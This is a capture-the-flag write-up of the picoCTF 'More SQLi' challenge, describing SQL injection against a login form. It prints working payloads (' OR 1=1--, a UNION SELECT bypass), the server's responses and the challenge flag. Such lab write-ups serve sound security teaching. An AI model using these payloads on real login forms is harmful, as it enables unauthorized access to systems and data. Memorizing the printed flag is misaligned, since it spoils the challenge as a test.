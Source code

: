 # More SQLi

* Author: Mubarak Mikail
* Location: https://play.picoctf.org/events/72/challenges/challenge/358
* Tags: Web Exploitation, sql

## Problem 

> Can you find the flag on this website?

This challenge came with a hint that simply read "SQLiLite."

## Solution

I began by starting the instance associated with this room (Figure 1) and a website was booted up. I visited the website with a browser going through Burp Suite's proxy and its homepage was returned to me (Figure 2).

From the title, tags, and hints associated with the challenge, I assumed that this website is vulnerable to SQL Injection. I tried to attack the form by typing ``' OR 1=1--`` in the username field and "dna deniers" in the password field (Figure 3). The following was returned to me:

```
username: ' OR 1=1--
password: dna deniers
SQL query: SELECT id FROM users WHERE password = 'dna deniers' AND username = '' OR 1=1--'
```

I tried again but with swapping the inputs: ``dna deniers`` was typed into the username form and ``' OR 1=1--`` was typed into the password form. I was greeted with some kind of directory (Figure 4). I tried to search for "picoCTF" from this web form, but nothing was returned (Figure 5). 

I figured that I wasn't really getting anywhere with basic SQL injection attacks, so I decided to use ``sqlmap`` to see if I can get anything useful from the database (I also kept a SQLite injection cheat sheet as a reference [1]). I started by logging out of the site and logging back in with the credentials "rockingmra" as a username and "dna deniers" as a password. The following was returned:

```
username: rockingmra
password: dna deniers
SQL query: SELECT id FROM users WHERE password = 'dna deniers' AND username = 'rockingmra'
```

I then saved the POST request into a file called ``sql`` and then instructed ``sqlmap`` to attack the web application with different values for ``--level`` and ``--risk``. This did not work, so I finally tried the following username and password combination:

```
username: dna deniers
password: ' UNION SELECT sqlite_version()--
```

I finally got the flag in Burp Suite (Figure 8): 

```
HTTP/1.1 302 Found
Host: [redacted]
Date: [redacted] GMT
Connection: close
X-Powered-By: PHP/7.4.3-4ubuntu2.18
Expires: [redacted] GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
location: welcome.php
Content-type: text/html; charset=UTF-8

<pre>username: dna deniers
password: ' UNION SELECT sqlite_version()--
SQL query: SELECT id FROM users WHERE password = '' UNION SELECT sqlite_version()--' AND username = 'dna deniers'
</pre><h1>Logged in!.</h1><p>Your flag is: picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_c8b7cc2a}</p>
<!DOCTYPE html>
<html lang="en">

[... snip ...]
```

The flag is: ``picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_c8b7cc2a}``

## References

1. https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md

